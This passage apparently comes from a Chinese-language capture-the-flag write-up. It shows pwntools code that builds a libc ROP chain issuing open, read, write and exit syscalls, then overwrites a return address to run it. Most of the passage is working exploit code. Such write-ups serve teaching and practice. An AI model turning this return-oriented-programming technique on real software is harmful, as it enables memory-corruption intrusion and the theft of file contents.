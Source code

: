 ROP_chain  = p64(libc.address + 0x000000000002155f)
ROP_chain += p64(0)
ROP_chain += p64(libc.address + 0x0000000000023e6a)
ROP_chain += p64(PIE_address + bf.bss() + 0x400)
ROP_chain += p64(libc.address + 0x0000000000001b96)
ROP_chain += p64(0x20)
ROP_chain += p64(libc.address + 0x00000000000439c8)
ROP_chain += p64(0)
ROP_chain += p64(libc.address + 0x00000000000d2975)
# open(BSS+0x400,0)
ROP_chain += p64(libc.address + 0x000000000002155f)
ROP_chain += p64(PIE_address + bf.bss() + 0x400)
ROP_chain += p64(libc.address + 0x0000000000023e6a)
ROP_chain += p64(0)
ROP_chain += p64(libc.address + 0x00000000000439c8)
ROP_chain += p64(2)
ROP_chain += p64(libc.address + 0x00000000000d2975)
# read(3,BSS+0x500,0x20)
ROP_chain += p64(libc.address + 0x000000000002155f)
ROP_chain += p64(3)
ROP_chain += p64(libc.address + 0x0000000000023e6a)
ROP_chain += p64(PIE_address + bf.bss() + 0x500)
ROP_chain += p64(libc.address + 0x0000000000001b96)
ROP_chain += p64(0x20)
ROP_chain += p64(libc.address + 0x00000000000439c8)
ROP_chain += p64(0)
ROP_chain += p64(libc.address + 0x00000000000d2975)
# write(0,BSS+0x500,0x20)
ROP_chain += p64(libc.address + 0x000000000002155f)
ROP_chain += p64(1)
ROP_chain += p64(libc.address + 0x0000000000023e6a)
ROP_chain += p64(PIE_address + bf.bss() + 0x500)
ROP_chain += p64(libc.address + 0x0000000000001b96)
ROP_chain += p64(0x20)
ROP_chain += p64(libc.address + 0x00000000000439c8)
ROP_chain += p64(1)
ROP_chain += p64(libc.address + 0x00000000000d2975)
# exit(0)
ROP_chain += p64(libc.address + 0x000000000002155f)
ROP_chain += p64(0)
ROP_chain += p64(libc.address + 0x00000000000439c8)
ROP_chain += p64(60)
ROP_chain += p64(libc.address + 0x00000000000d2975)
for i in ['[',']']:
    if i in ROP_chain:
        raise ValueError('ROP_chain ERROR')
</code></pre>
</li>
<li>接下来我们选择不跳出循环。
<pre><code class="lang-python hljs">sh.recvuntil('want to continue?')
sh.send('y')
</code></pre>
</li>
<li>覆盖返回地址，并恢复`code`指针。
<pre><code class="lang-python hljs">sh.recvuntil('enter your code:')
sh.sendline(p64(0) + ROP_chain)
